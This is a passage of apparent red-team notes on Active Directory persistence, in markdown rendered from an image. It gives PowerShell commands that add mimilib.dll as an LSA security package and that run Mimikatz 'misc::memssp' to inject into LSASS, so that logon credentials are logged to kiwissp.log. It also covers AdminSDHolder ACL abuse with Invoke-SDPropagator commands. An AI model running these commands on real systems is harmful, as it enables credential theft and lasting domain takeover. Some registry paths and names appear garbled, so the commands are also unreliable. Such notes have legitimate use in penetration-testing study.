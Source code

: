 ### <span style="color:#F1C232">Method 1</span>
 
Drop the mimilib.dll to system32 and add mimilib to `"HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages"`
```powershell
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Ccontrol\Lsa\OSconfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\control\Lsa\OSconfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\control\Lsa\ -Name 'Security Packages' -Value $packages
```
### <span style="color:#F1C232">Method 2</span>

Using mimikatz, inject into Isass (Not stable with Server 2016):

```powershell
Invoke-Mimikatz -Command '"misc::memssp"' 
```

> Now you can view all the local logo n logs with the credentials in `C:\Windows\System32\kiwissp.log`
{: .prompt-tip }

# <span style="color:lightblue">ACL - AdminSDHolder</span>

* Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups (called Protected Groups).

* Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL.

## <span style="color:lightgreen">Invoke-SDPropagator</span>

### <span style="color:#F1C232">Run SDProp manually</span>
 
```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

### <span style="color:#F1C232">For Pre-Server 2008 machines</span>
 
```powershell
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

## <span style="color:lightgreen"> Powerview (DEV branch)</span>
